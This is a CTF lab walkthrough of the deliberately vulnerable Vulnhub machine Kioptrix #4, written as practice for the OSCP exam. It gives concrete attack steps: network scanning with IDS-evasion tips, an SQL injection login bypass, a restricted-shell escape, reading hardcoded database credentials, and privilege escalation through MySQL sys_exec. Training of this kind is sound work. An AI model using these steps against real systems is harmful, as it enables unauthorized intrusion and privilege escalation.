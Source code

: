 ```yaml
---
title: "Kioptrix #4 Walkthrough"
author: alex
date: Fri 28 Jul 18:15:48 CEST 2023
categories: [Walkthroughs]
tags: [oscp, ctf, walkthroughs, vulnhub]
img_path: /assets/img/posts/2023-07-28-kioptrix-4-walkthrough/
---
```


Today I'm hacking into **Kioptrix 1.3**. Or Kioptrix #4. This is one of the many **beginner-friendly OSCP-like** CTFs of Vulnhub. So it's a great starting point for preparing the OSCP tests. If you want to start with the previous level, check my walkthroughs: **[Kioptrix #1](/posts/kioptrix-1-walkthrough)**, **[Kioptrix #2](/posts/kioptrix-2-walkthrough)** and **[Kioptrix #3](/posts/kioptrix-3-walkthrough)**.

## Methodology

1. Reconnaissance
2. Enumeration
3. Exploitation
   - Gaining root access

## Tools Used

- Netdiscover
- Nmap
- Gobuster

## Recon

Let's scan the network to discover our target's IP address:

```bash
sudo netdiscover
```
And here's the output:

```
Currently scanning: 192.168.18.0/16   |   Screen View: Unique Hosts                                               
                                                                                                                   
2 Captured ARP Req/Rep packets, from 2 hosts.   Total size: 120                                                   
_____________________________________________________________________________
  IP            At MAC Address     Count     Len  MAC Vendor / Hostname      
-----------------------------------------------------------------------------
192.168.1.1     08:00:27:bf:11:12      1      60  PCS Systemtechnik GmbH                                          
192.168.1.40    08:00:27:fd:e3:ab      1      60  PCS Systemtechnik GmbH 
```
## Enumeration 

After getting the IP address of the target we now need to enumerate the target for open ports and protocols. I have used **Nmap** aggressive command for that: 

```bash
sudo nmap -p- -T4 -A -O -v 192.168.1.40
```

> **IDS & FW TRIGGERING** 
> 
> In real world situations, **this scans may trigger firewalls and other network security appliances.** If you want to run a softer scan, just change `-sV` to `-sS`. Once you know the open ports, you can target them individually. Change `-T4` (speed 4) to `-T1` (slow speed, will take ages) as well. It's not undetectable but less probable. You can also use `-D` for decoy. Check the Nmap theory **[here!](/posts/oscpath-week-1/#port-scanning)**
{: .prompt-warning }

And the output...

```
Nmap scan report for 192.168.1.40
Host is up (0.00049s latency).
Not shown: 39528 closed tcp ports (reset), 26003 filtered tcp ports (no-response)

PORT    STATE SERVICE     VERSION

22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1.2 (protocol 2.0)
| ssh-hostkey: 
|   1024 9b:ad:4f:f2:1e:c5:f2:39:14:b9:d3:a0:0b:e8:41:71 (DSA)
|_  2048 85:40:c6:d5:41:26:05:34:ad:f8:6e:f2:a7:6b:4f:0e (RSA)

80/tcp  open  http        Apache httpd 2.2.8 ((Ubuntu) PHP/5.2.4-2ubuntu5.6 with Suhosin-Patch)
|_http-server-header: Apache/2.2.8 (Ubuntu) PHP/5.2.4-2ubuntu5.6 with Suhosin-Patch
|_http-title: Site doesn't have a title (text/html).
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS

139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)

445/tcp open              Samba smbd 3.0.28a (workgroup: WORKGROUP)

MAC Address: 08:00:27:B4:0C:E8 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 2.6.X
OS CPE: cpe:/o:linux:linux_kernel:2.6
OS details: Linux 2.6.9 - 2.6.33
Uptime guess: 497.100 days (since Tue Feb  8 19:33:43 2022)
Network Distance: 1 hop
TCP Sequence Prediction: Difficulty=205 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 3h59m58s, deviation: 2h49m42s, median: 1h59m58s
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.28a)
|   Computer name: Kioptrix4
|   NetBIOS computer name: 
|   Domain name: localdomain
|   FQDN: Kioptrix4.localdomain
|_  System time: 2023-06-20T18:58:17-04:00
|_smb2-time: Protocol negotiation failed (SMB2)
| nbstat: NetBIOS name: KIOPTRIX4, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| Names:
|   KIOPTRIX4<00>        Flags: <unique><active>
|   KIOPTRIX4<03>        Flags: <unique><active>
|   KIOPTRIX4<20>        Flags: <unique><active>
|   WORKGROUP<1e>        Flags: <group><active>
|_  WORKGROUP<00>        Flags: <group><active>
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
```

We can see some interesting ports open here. 

- **Port 22:** Nothing interesting so far when trying to connect via SSH.

- **Port 80:** Let's open the browser and search for http://192.168.1.40. We find a login page, let's keep going with the recon before trying anything here.

Let's enumerate the directories of the website with `gobuster`: `sudo gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u 192.168.1.40 -t 10`. And the results show there's a directory named *john* and another named *robert*: `http://192.168.1.40/john/` & `http://192.168.1.40/robert/`.

![Directories](/kioptrix-gobuster.png)

- **Port 139/445:** Our lovely and insecure Samba ports. We are going to further enumerate Samba with Nmap: `sudo nmap --script smb-enum-users -v 192.168.1.40`.

![Samba Users](/kioptrix-smb-users.png)

Now we have some users to try to log in. Back to the login page, let's try some **SQLi**. Starting with *john* as username and the legendary `' OR '1'='1'` as the password.

![Member Page](/logged-in.png)

Yay, We have a password! Let's try to log in with SSH: 

```bash
sudo ssh -oKexAlgorithms=+diffie-hellman-group1-sha1 -oHostKeyAlgorithms=+ssh-dss -oPubkeyAcceptedAlgorithms=+ssh-rsa -c aes128-cbc john@192.168.1.40
```

And now we're in! As we can see. we don't have a full working shell, it just allows us to use a few commands and stay in `/home/john`, otherwise we would be kicked out. Now we should scape this limited shell. Thanks to the `echo` command we can log other commands into the system bypassing the restriction: 

```bash
echo os.system('/bin/bash')
```

Ok, now we have a full shell. First things first, let's check if we can run **sudo** and what is already running as **root**. Running `sudo -l` we make sure that we cannot run **sudo**. Now let's check the processes that are running as root: `ps -elf | grep 'root'`. Now we see that **MySQL** is running as **root**.

Let's head to `/var/www` and `cat` the `checklogin.php` to see if any credentials are hardcoded. And yes! Now we can access the database with the credentials with `root` as user and no password: `mysql -h localhost -u root -p`.

Now we can see what databases we have: `show databases;`. And as **MySQL** is running as root and we have root access to it, what we can do is to try to add *john* to the *admin* group: 

```sql
select sys_exec('usermod -a -G admin john')
```

To check if it worked, exit MySQL and run `sudo su`. When prompted for john's password use *MyNameIsJohn* and... voilà! We have **root** access!